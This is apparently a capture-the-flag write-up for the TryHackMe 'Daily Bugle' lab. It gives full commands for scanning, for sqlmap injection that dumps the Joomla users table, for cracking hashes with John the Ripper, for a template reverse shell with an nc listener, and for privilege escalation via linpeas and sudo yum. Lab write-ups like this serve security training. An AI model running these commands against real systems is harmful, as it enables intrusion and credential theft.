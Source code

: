 ```yaml
---
layout: post
permalink: /posts/thm/daily-bugle
title: "Daily Bugle"
---
```


Scan the target machine with nmap

```
nmap -sC -sV <ip>
```

![nmap-scan](/assets/images/thm/daily-bugle/nmap-scan.png)

There are 3 open ports: 22, 80 and 3306. Visit the website

![website](/assets/images/thm/daily-bugle/website.png)

Wow.. Spider-man is accused of robbery. We don't have any additional imformation. Let's scan the target with Gobuster.

![gobuster](/assets/images/thm/daily-bugle/gobuster.png)

We have found that there is /administrator page.

![login-form](/assets/images/thm/daily-bugle/login-form.png)

We know the web site uses CMS Joomla. Let's use joomlascan.

```
/opt/joomscan/joomscan.pl -u http://10.10.255.36
```

![joomla-version](/assets/images/thm/daily-bugle/joomla-version.png)

We find out the Joomla version. Now we are going to use searchsploit to find a vlunerability for this version.

```
searchsploit joomla 3.7.0
```

![searchsploit](/assets/images/thm/daily-bugle/searchsploit.png)

![searchsploit-view](/assets/images/thm/daily-bugle/searchsploit-view.png)

This exploit shows us that we are going to use sqlmap

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![sqlmap1](/assets/images/thm/daily-bugle/sqlmap1.png)

Let's try to find the credentials in joomla. We can find the table name in the joomla documentations: https://docs.joomla.org/Tables/users

![joomla-table](/assets/images/thm/daily-bugle/joomla-table.png)

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![sqlmap2](/assets/images/thm/daily-bugle/sqlmap2.png)

It looks we need to add the columns. Stop the scan, we have already had them from the documentation.

```
sqlmap -u "http://10.10.255.36/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

We found the user jonah and his hashed password. We are going to use https://hashcat.net/wiki/doku.php?id=example_hashes to identify the hash and John the Ripper to crack it.

![hash-code](/assets/images/thm/daily-bugle/hash-code.png)

```
john hash.txt --wordlist=rockyou.txt --format=bcrypt
```

![john-result](/assets/images/thm/daily-bugle/john-result.png)

We were able to log in /administrator directory with jonah:spiderman123
The web interface confirms that jonah is a superuser of the joomla installation.

![super-user](/assets/images/thm/daily-bugle/super-user.png)

This means we can edit the template used by the blog.

On the top menu go to Extensions -> Templates -> Templates

![templates](/assets/images/thm/daily-bugle/templates.png)

Now create new file

![create-file](/assets/images/thm/daily-bugle/create-file.png)

Paste monkeyReverseShell in it and start listener

```
nc -lvnp 1234
```

go to

![url](/assets/images/thm/daily-bugle/url.png)

![shell](/assets/images/thm/daily-bugle/shell.png)

Stabalize shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We are going to use linpeas

```
cd /dev/shm
```

![download](/assets/images/thm/daily-bugle/download.png)

```
./linpeas.sh
```

![linpeas](/assets/images/thm/daily-bugle/linpeas.png)

Linpeas found clear text password and we had found username jjameson in /home. Let's try to ssh with this password nv5uz9r3ZEDzVjNu

![ssh](/assets/images/thm/daily-bugle/ssh.png)

Let's find out if jjameson is allowed to do something as another user

![sudo-l](/assets/images/thm/daily-bugle/sudo-l.png)

go to https://gtfobins.github.io/gtfobins/yum/#sudo

![gtfo](/assets/images/thm/daily-bugle/gtfo.png)

Simply copy and paste the example code from gtfobin

![poc](/assets/images/thm/daily-bugle/poc.png)
